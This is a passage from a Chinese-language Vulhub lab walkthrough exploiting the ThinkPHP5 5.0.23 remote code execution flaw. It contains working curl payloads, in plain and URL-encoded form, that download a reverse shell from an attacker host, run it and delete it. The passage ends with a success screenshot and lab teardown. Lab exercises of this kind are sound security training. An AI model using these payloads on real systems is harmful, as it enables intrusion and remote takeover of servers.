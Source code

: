 ```
curl http://debian:8080/index.php?s=captcha -d "_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=curl -so /tmp/reverse_tcp_shell http://kali.local/reverse_tcp_shell;chmod +x /tmp/reverse_tcp_shell;/tmp/reverse_tcp_shell;rm -f /tmp/reverse_tcp_shell"
```

用 BurpSuite 对漏洞进行 url 编码

![用 BurpSuite 对漏洞进行 url 编码](./../../../../../images/vulhub/thinkphp/ThinkPHP5%205.0.23%20%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/%E7%94%A8%20BurpSuite%20%E5%AF%B9%E6%BC%8F%E6%B4%9E%E8%BF%9B%E8%A1%8C%20url%20%E7%BC%96%E7%A0%81.png)

```
curl http://debian:8080/index.php?s=captcha -d "_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=%63%75%72%6c%20%2d%73%6f%20%2f%74%6d%70%2f%72%65%76%65%72%73%65%5f%74%63%70%5f%73%68%65%6c%6c%20%68%74%74%70%3a%2f%2f%31%39%32%2e%31%36%38%2e%36%2e%32%34%2f%72%65%76%65%72%73%65%5f%74%63%70%5f%73%68%65%6c%6c%3b%63%68%6d%6f%64%20%2b%78%20%2f%74%6d%70%2f%72%65%76%65%72%73%65%5f%74%63%70%5f%73%68%65%6c%6c%3b%2f%74%6d%70%2f%72%65%76%65%72%73%65%5f%74%63%70%5f%73%68%65%6c%6c%3b%72%6d%20%2d%66%20%2f%74%6d%70%2f%72%65%76%65%72%73%65%5f%74%63%70%5f%73%68%65%6c%6c"
```

渗透成功

![渗透成功](./../../../../../images/vulhub/thinkphp/ThinkPHP5 5.0.23 远程代码执行漏洞/渗透成功.png)

切换到靶场目录

```
[root@centos ~]# cd /root/vulhub/thinkphp/5.0.23-rce/
```

关闭环境

```
┌──(root㉿kali)-[~]
└─# docker-compose down
```

---

References

- [Vulhub](https://vulhub.org/)
